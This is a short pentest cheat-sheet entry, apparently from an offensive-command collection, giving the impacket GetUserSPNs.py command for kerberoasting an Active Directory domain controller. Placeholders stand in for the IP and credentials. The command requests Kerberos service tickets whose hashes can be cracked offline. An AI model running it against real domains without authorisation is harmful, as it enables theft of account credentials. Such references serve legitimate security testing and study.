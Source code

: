 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```
